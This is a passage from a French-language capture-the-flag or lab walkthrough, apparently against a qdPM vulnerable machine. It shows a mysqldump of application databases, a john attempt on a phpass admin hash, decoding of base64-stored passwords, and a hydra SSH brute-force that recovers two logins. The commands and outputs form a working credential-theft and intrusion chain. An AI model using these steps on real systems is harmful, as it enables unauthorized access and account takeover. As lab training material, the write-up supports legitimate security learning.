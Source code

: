 ```console
| information_schema |
| mysql              | 
| performance_schema |
| qdpm               | 
| staff              |
| sys                |
+--------------------+
6 rows in set (0,01 sec)
```

Je ne vais pas me taper l'inspection de toutes les dbs et tables manuellement alors je dumpe les dbs qui m'intéressent en SQL :  

```console
$ mysqldump -u qdpmadmin -h 127.0.0.1 -P 4444 -p qdpm > /tmp/qdpm.sql
```

Il n'y a plus qu'à chercher les occurrences de *INSERT* dans le dump. Celle-ci est intéressante :  

```sql
INSERT INTO `configuration` VALUES (1,'app_administrator_email','admin@localhost.com'),(2,'app_administrator_password','$P$EmesnWRcY9GrK0hDzwaV3rvQnMJ/Fx0'),
```

A priori le hash est au format phpass et on peut tenter de le casser de cette manière :  

```console
$ john --format=phpass --wordlist=rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 65536 for all loaded hashes 
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Toutefois, ça ne semble mener nulle part. Je passe à la base *staff* :  

```sql
INSERT INTO `login` VALUES (1,2,'c3VSSkFkR3dMcDhkeTNyRg=='),(2,4,'N1p3VjRxdGc0MmNtVVhHWA=='),(3,1,'WDdNUWtQM1cyOWZld0hkQw=='),(4,3,'REpjZVZ5OThXMjhZN3dMZw=='),(5,5,'Y3FObkJXQ0J5UzJEdUpTeQ==');
INSERT INTO `user` VALUES (1,1,'Smith','Cyber Security Specialist'),(2,2,'Lucas','Computer Engineer'),(3,1,'Travis','Intelligence Specialist'),(4,1,'Dexter','Cyber Security Analyst'),(5,2,'Meyer','Genetic Engineer');
```

Je décode les base64, rassemble les noms d'utilisateurs (avec et sans majuscules) dans un fichier, les pass dans un autre et je bruteforce SSH avec ces informations :  

```console
$ hydra -L /tmp/users.txt -P /tmp/passwords.txt  ssh://192.168.2.9
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-23 12:52:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:8/p:4), ~2 tries per task 
[DATA] attacking ssh://192.168.2.9:22/ 
[22][ssh] host: 192.168.2.9   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.2.9   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-23 12:52:13
```
